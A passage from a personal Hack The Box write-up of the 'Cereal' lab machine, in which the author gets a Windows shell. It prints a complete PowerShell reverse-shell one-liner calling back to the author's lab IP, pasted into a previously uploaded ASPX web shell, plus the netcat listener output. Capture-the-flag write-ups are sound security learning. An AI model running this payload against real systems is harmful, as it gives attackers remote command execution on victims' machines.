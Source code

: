 # 40 - Shell as sonny

I wanted to get a proper shell with powershell. I found a few examples:
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)
- [https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
- [https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)

In the end I went for this one, from [https://hackersinterview.com/oscp/reverse-shell-one-liners-oscp-cheatsheet/](https://hackersinterview.com/oscp/reverse-shell-one-liners-oscp-cheatsheet/):

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.92',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

I pasted this into my shell at `http://source.cereal.htb/uploads/oops.aspx`, and got a hit!

```bash
┌──(mac㉿kali)-[~/Documents/HTB/cereal/test-www]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.92] from (UNKNOWN) [10.10.10.217] 55785
whoami
cereal\sonny
PS C:\windows\system32\inetsrv> 
```

## Conclusion

I'm going to leave it there with this one. Getting a proper shell was pretty much as far as I got - I did a little bit of Windows enumeration, but nothing worth writing up.

I may return to this box one day - but for now I'm just proud of myself for figuring this out with relatively few hints (and a lot of late nights). Thank you Hack the Box!